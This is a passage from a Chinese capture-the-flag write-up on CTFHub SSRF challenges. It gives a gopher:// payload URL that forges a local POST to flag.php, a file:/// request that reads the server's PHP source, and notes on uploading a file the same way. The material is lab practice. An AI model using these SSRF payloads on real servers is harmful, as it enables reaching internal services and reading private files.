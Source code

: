 > 
Payload


```
http://challenge-aa5afefd4daec439.sandbox.ctfhub.com:10800/?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Dc384d200658f258e5b5c681bf0aa29a8%250D%250A

```

#### 上传文件

> 
题目描述：这次需要上传一个文件到flag.php了，祝你好运


> 
和上一题一样扫描一下web目录，读flag.php的源码


```
http://challenge-0b92a02269b5fb44.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php

```

```
&lt;?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

if(isset($_FILES["file"]) &amp;&amp; $_FILES["file"]["size"] &gt; 0){
    echo getenv("CTFHUB");
    exit;
}
?&gt;

Upload Webshell

&lt;form action="/flag.php" method="post" enctype="multipart/form-data"&gt;
    &lt;input type="file" name="file"&gt;
&lt;/form&gt;

```

> 
可以发现flag.php确实是个文件上传的页面，且仅要求上传的文件大小大于0即可得到flag，并没有任何过滤，尝试利用gopher协议上传文件


> 
随便上传一个非空的文件，然后抓包，利用脚本构造Payload

